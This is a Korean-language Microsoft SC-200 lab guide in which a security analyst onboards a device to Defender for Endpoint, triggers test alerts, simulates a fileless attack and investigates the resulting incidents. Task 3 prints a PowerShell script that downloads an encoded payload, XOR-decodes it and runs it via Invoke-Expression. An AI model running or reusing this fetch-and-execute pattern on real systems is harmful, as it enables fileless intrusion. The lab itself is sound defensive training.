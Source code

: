 ```yaml
---
lab:
  title: 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 공격 완화
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 학습 경로 2 - 랩 1 - 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

## 랩 시나리오

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

여러분은 엔드포인트용 Microsoft Defender를 구현하고 있는 회사에서 일하는 보안 운영 분석가입니다. 귀하의 관리자가 몇몇 디바이스를 온보딩하여 보안 운영(SecOps) 팀 응답 절차에 필요한 변경 내용에 대한 인사이트를 제공하려고 합니다.

엔드포인트용 Defender 공격 완화 기능을 탐색하려면 성공적인 디바이스 온보딩을 확인하고 해당 프로세스 중에 생성된 경고 및 인시던트를 조사합니다.

>**참고:** **[대화형 랩 시뮬레이션](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** 을 사용하여 이 랩을 원하는 속도로 클릭할 수 있습니다. 대화형 시뮬레이션과 호스트된 랩 간에 약간의 차이가 있을 수 있지만 보여주는 핵심 개념과 아이디어는 동일합니다.

### 작업 1: 디바이스 온보딩 확인

이 작업에서는 디바이스가 성공적으로 온보딩되었는지 확인하고 테스트 경고를 만듭니다.

1. 현재 위치가 Microsoft Edge 브라우저의 Microsoft Defender XDR 포털이 아닌 경우 https://security.microsoft.com)으로 이동하고 테넌트에 대한 관리자로 로그인합니다.

1. 왼쪽 메뉴의 **자산** 영역에서 **디바이스**를 선택합니다. 계속하기 전에 WIN1이 디바이스 페이지에 나타날 때까지 기다려 주세요. 그렇지 않으면, 나중에 생성될 경고를 보기 위해 이 작업을 반복해야 할 수 있습니다.

    >**참고:** 온보딩 프로세스를 완료하고 한 시간 후에 디바이스 목록에 디바이스가 표시되지 않으면 온보딩 또는 연결 문제가 표시될 수 있습니다.

1. Microsoft Defender XDR 포털 왼쪽 메뉴 모음에서 **시스템** 섹션을 확장하고 **설정**을 선택한 다음, *설정* 페이지에서 **엔드포인트**를 선택합니다.

1. 디바이스 관리 섹션에서 **온보딩**을 선택하고 *"Windows 10 및 11"* 이 운영 체제로 선택되어 있는지 확인합니다. 이제 *"온보딩된 첫 번째 디바이스"* 메시지에 *완료됨*이 표시됩니다.

1. *"2" 섹션에서 아래로 스크롤합니다. 검색 테스트 실행"*, **복사** 단추를 선택하여 검색 테스트 스크립트를 복사 합니다.  

1. WIN1 가상 머신의 Windows 검색 창에서 **CMD**를 입력하고 명령 프롬프트 앱의 오른쪽 창에서 **관리자 권한으로 실행**을 선택합니다.

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다. 

1. **관리자: 명령 프롬프트** 창을 마우스 오른쪽 단추로 클릭하여 스크립트를 붙여넣고 **Enter** 키를 눌러 실행합니다.

    >**참고:** 스크립트를 성공적으로 실행한 후 몇 분 후에 Microsoft Defender XDR 포털에서 경고가 생성되면 창이 자동으로 닫힙니다.

### 작업 2: 경고 및 인시던트 조사

이 작업에서는 이전 작업의 온보딩 검색 테스트 스크립트에서 생성된 경고 및 인시던트를 조사합니다.

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **조사 및 응답**을 확장한 다음 **인시던트 및 경고**를 확장하고 **경고**를 선택합니다.

    >**참고:** 업데이트된 버전의 Microsoft Defender XDR 포털 페이지에서 *인시던트 및 경고*가 *조사 및 응답* 메뉴 제목 아래에 있습니다.

1. **경고** 창에서 *[TestAlert]의심스러운 PowerShell 명령줄*이라는 경고를 선택하여 세부 정보를 로드합니다.

1. *경고 스토리* 타임라인을 검토한 다음 *세부 정보* 및 *권장 사항* 탭을 검토합니다.

    >**참고:** 경고 *세부 정보* 탭에서 *인시던트 세부 정보* 섹션까지 아래로 스크롤하고 *한 엔드포인트에서 실행 인시던트* 링크를 선택하여 인시던트를 열 수 있습니다.

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **인시던트 및 경고**를 선택한 다음, **인시던트**를 선택합니다.

1. 필터 오른쪽에서 **X**를 선택하여 *경고 심각도* 필터를 지웁합니다.

1. *[TestAlert]의심스러운 PowerShell 명령줄*이란 새 인시던트가 오른쪽 창에 나타납니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

1. **인시던트 관리** 링크(연필 아이콘 포함)를 선택하면 새 창 블레이드가 나타납니다.

1. **인시던트 태그** 아래에서 "시뮬레이션"을 입력하고 **시뮬레이션(새로 만들기)** 를 선택하여 새 태그를 만듭니다.

1. **내게 할당** 토글을 선택하여 사용자 계정(Me)을 인시던트 소유자로 추가합니다.

1. **분류** 아래에서 드롭다운 메뉴를 확장합니다.

1. **정보, 예상 작업**에서 **보안 테스트**를 선택합니다.

1. 원하는 경우 메모를 추가하고 **저장**을 선택하여 인시던트 업데이트 및 완료를 선택합니다.

1. *공격 스토리, 경고, 자산, 조사, 증거 및 대응*과 *요약* 탭의 내용을 검토합니다. 디바이스 및 사용자가 *자산* 탭 아래에 있습니다. 실제 인시던트에서 *공격 스토리* 탭에는 *인시던트 그래프*가 표시됩니다. **힌트:** 일부 탭은 디스플레이 크기 때문에 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

### 작업 3 공격 시뮬레이션

>**경고:** 이 시뮬레이션된 공격은 연습을 통한 훌륭한 학습 소스입니다. Azure 테넌트에서 제공하는 과정을 사용할 때 이 랩에 제공된 지침의 지침에서만 공격을 수행합니다.  이 테넌트에서 이 교육 과정을 완료한 *후에* 다른 시뮬레이션된 공격을 수행할 수 있습니다.

이 작업에서는 WIN1 가상 머신에 대한 공격을 시뮬레이션하고 엔드포인트용 Microsoft Defender 공격이 감지되고 완화되는지 확인합니다.

1. WIN1 가상 머신에서 **시작** 단추를 *마우스 오른쪽 단추로 클릭*하고 **Windows PowerShell(관리자)** 을 선택합니다.

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다.

1. 다음 시뮬레이션 스크립트를 복사하여 PowerShell 창에 붙여넣고 **Enter** 키를 눌러 실행합니다.

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**참고:** 스크립트를 실행하는 동안 오류(빨간색)가 발생하면 메모장 앱을 열고 스크립트를 빈 파일에 복사할 수 있습니다. 메모장에서 *자동 줄 바꿈*이 켜져 있는지 확인합니다. 그런 다음 PowerShell에서 스크립트의 각 줄을 개별적으로 복사하고 실행합니다. 또한 랩 시작 시 다운로드한 파일에 PowerShell 스크립트(attacksim.ps1)가 제공되었습니다. 스크립트를 사용하려면 **Windows PowerShell(관리자)** 에서 *\Users\Admin\Desktop\Allfiles* 폴더로 이동하여 *.\attacksim.ps1*을 입력하고 **Enter** 키를 눌러 실행합니다.

1. 스크립트는 여러 줄의 출력과 *도메인에서 도메인 컨트롤러를 확인하지 못함*이라는 메시지를 생성합니다. 몇 초 후에 *메모장* 앱이 열립니다. 시뮬레이션된 공격 코드가 메모장에 삽입됩니다. 자동으로 생성된 메모장 인스턴스를 열어 두어 전체 시나리오를 경험해 보세요. 시뮬레이션된 공격 코드는 외부 IP 주소(C2 서버 시뮬레이션)와 통신을 시도합니다.

### 작업 4: 시뮬레이션된 공격을 단일 인시던트로 조사

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **조사 및 응답**을 확장한 다음 **인시던트 및 경고**를 확장하고 **인시던트**를 선택합니다.

    >**참고:** 업데이트된 버전의 Microsoft Defender XDR 포털 페이지에서 *인시던트 및 경고*가 *조사 및 응답* 메뉴 제목 아래에 있습니다.

1. *하나의 엔드포인트에서 방어 회피 및 검색과 관련된 다단계 인시던트*라는 새 인시던트가 오른쪽 창에 있습니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

    >**참고:** 인시던트가 표시되지 않으면 필터 오른쪽에서 **X**를 선택하여 *경고 심각도* 필터를 지워야 합니다.

1. *공격 스토리* 탭에서 **경고** 및 **인시던트 세부 정보** 창을 축소하여 전체 **인시던트 그래프**를 봅니다.

1. **인시던트 그래프 노드**를 마우스로 가리키고 선택하여 *엔터티*를 검토합니다.

1. **경고** 창(왼쪽)을 다시 확장하고 **재생 공격 스토리** *실행* 아이콘을 선택합니다. 경고별 공격 타임라인 경고를 표시하고 *인시던트 그래프*를 동적으로 채웁니다.

1. *공격 스토리, 경고, 자산, 조사, 증거 및 대응*과 *요약* 탭의 내용을 검토합니다. 디바이스 및 사용자가 *자산* 탭 아래에 있습니다. **힌트:** 일부 탭은 디스플레이 크기 때문에 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

1. **증거 및 대응** 탭에서 **IP 주소**를 선택한 다음, 표시된 *IP 주소*를 선택합니다. 팝업 창에서 IP 주소 세부 정보를 검토하고 아래로 스크롤하여 **IP 주소 페이지 열기** 단추를 선택합니다.

1. 조직 탭에서 *IP 주소* 페이지 *개요, 인시던트 및 경고 및 관찰됨*의 내용을 검토합니다. 일부 탭에는 IP 주소에 대한 정보가 포함되어 있지 않을 수 있습니다.

## 이 랩을 완료했습니다.
